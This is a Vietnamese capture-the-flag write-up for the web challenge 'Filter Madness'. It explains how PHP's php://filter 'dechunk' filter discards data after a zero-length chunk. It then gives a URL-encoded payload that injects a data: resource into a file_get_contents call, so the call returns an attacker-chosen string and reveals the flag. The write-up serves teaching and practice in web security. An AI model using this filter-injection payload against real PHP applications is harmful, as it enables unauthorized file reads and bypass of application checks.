




# Filter Madness

**Tên challenge:** Filter Madness

**Link challenge:** [Here](https://battle.cookiearena.org/challenges/web/filter-madness)

**Tác giả challenge:** COLLECTOR

**Mục tiêu challenge:** Take a look through the source `index.bak`. Do you really understand PHP Wrapper?

Credits: qhdwight at WolvCTF2023
FLAG Format: `CHH{}`

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, Website cung cấp cho ta tính năng Submit như sau:



**B2:** Ta thử nhập chữ `test` rồi Submit



Từ ảnh trên, ta thấy nó trả về lỗi không nhận dạng được filter và ngoài ra thì ta thấy chữ `test` mà ta nhập vào nằm trong câu:
```
php://filter/test/resource=/etc/passwd
```

Ta thử tìm hiểu Source Code của Challenge:



**Tóm tắt Code:**
1. Code lấy input của mình `$madness` để truyền vào trong `$file`, sau đó biến `$file` được đưa vào hàm `file_get_contents()` để thực thi và kết quả trả về được gán vào biến `$result`.
2. Nếu `$result` có giá trị là `zombies for the flag` thì sẽ trả về kết quả của `flag.txt`.

**Câu hỏi đặt ra ở đây là:** Làm sao nào để `$result === ‘zombies for the flag’` mà ta chỉ có thể tác động đến phần giữa của cú pháp `php://filter/part_we_can_modify/resource=/etc/passwd` .

* **Trả lời:** Trong các bộ lọc của `php://filter` thì ta có thể dùng tính năng `dechunk` để giúp ta vượt qua Challenge này.

**Giải thích 1 chút về `Dechunk`:**
1. `Dechunk` là một bộ lọc trong `php://filter` Wrapper, nó được dùng là để xử lí [chunked transfer encoding](https://en.wikipedia.org/wiki/Chunked_transfer_encoding#Encoded_data).
2. Mỗi `chunk` được chia thành 2 phần: `chunk length` và `chunk data`.

**VD:** Ta có 1 file `test.txt` có giá trị như sau:
```
$> cat test.txt
5
hello
0
```
Và khi ta áp dụng bộ lọc `Dechunk` thì nó sẽ có kết quả như sau:
```
$> php -r "echo file_get_contents('php://filter/dechunk/resource=test.txt');"

hello
```
*Như ta thấy:*
* File `test.txt` có 3 dòng và dòng 1, 2 là 1 **chunk** với:
    * 5 là `chunk length` ( độ dài của `chunk data`, cụ thể là `hello`)
    * `hello` là `chunk data`

Ngoài ra, thì giá trị 0 để chỉ kết thúc của data.

Có 1 điểm thú vị nếu ta thêm 1 chunk data nào khác sau giá trị 0 thì:
```
$> cat test.txt
5
hello
0
test_ne

$> php -r "echo file_get_contents('php://filter/dechunk/resource=test.txt');"

hello
```
Dòng `test_ne` ở sau giá trị 0 đã không được in ra do khi gặp `chunk` có độ dài là 0 thì bộ lọc `dechunk` sẽ dừng lại vì nó sẽ hiểu đó là `chunk` cuối cùng và mặc định nghĩ rằng không còn dữ liệu nữa. Lợi dụng điểm này, ta có thể lược bỏ mọi nội dung của file `/etc/passwd` trong cú pháp.

**B3:** Ta bắt đầu dùng payload sau để làm cho `$result === zombies for the flag`:
```
resource%3ddata%3a%2c14%0azombies%20for%20the%20flag%0a0%0a%7cdechunk
```

Và khi payload trên được đưa vào hàm `file_get_contents` sẽ có dạng hoàn chỉnh sau:
```
php://filter/resource=data:,14
zombies for the flag
0
|dechunk/resource=/etc/passwd
```


=> Thế là ta đã thành công đọc được `Flag`.